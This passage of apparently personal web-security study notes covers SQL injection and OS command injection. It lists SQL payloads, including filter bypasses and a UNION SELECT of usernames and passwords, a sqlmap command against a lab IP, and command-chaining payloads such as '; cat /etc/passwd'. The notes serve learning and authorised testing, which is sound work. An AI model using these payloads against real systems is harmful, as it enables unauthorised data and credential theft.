 - Burp Intruder or Repeater for logic testing

---

### 4. SQL Injection (SQLi)

#### ❓ What is it?

Injection of SQL code via user input to manipulate backend queries.

#### 🧠 Theory Recap

- Types:
    - Union-based: `UNION SELECT ...`
    - Error-based: force errors to reveal data
    - Boolean: true/false logic to infer data
    - Time-based blind: use `SLEEP(5)` or similar
- Impacts: Auth bypass, data exfil, RCE (via SQL shell functions)

#### 🧪 Payloads from Notes

- String-based: `name=root' OR '1'='1`
- Comment filter bypass: `name=root'/**/OR/**/'1'='1`
- No space: `name=root'%09OR%09'1'='1`
- Numeric: `id=2 OR 1=1`
- ORDER BY for column guessing: `?id=1 ORDER BY 3`
- ORDER BY for age: `?id=2 OR 1=1 ORDER BY age`
- ORDER BY for age descending: `?id=2 OR 1=1 ORDER BY age DESC`
- Union: `?id=1 UNION SELECT NULL, username, password FROM users`
- Regex filter: use `%23` to parse `#` - SQL ignores 

#### 🔧 Tools

- **sqlmap** (when allowed)
    
    ```bash
    sqlmap -u "http://10.0.0.2/sqli/example1.php?id=1" --dbs
    ```
    
- Manual via Burp or browser URL
    
---

### 5. OS Command Injection

#### ❓ What is it?

Occurs when user input is used to construct shell commands without proper sanitization.

#### 🧠 Theory Recap

- Vectors: `system()`, `exec()`, `popen()`
- Payload chaining:
    - `127.0.0.1; cat /etc/passwd`
    - `| whoami`
    - `&& id`
        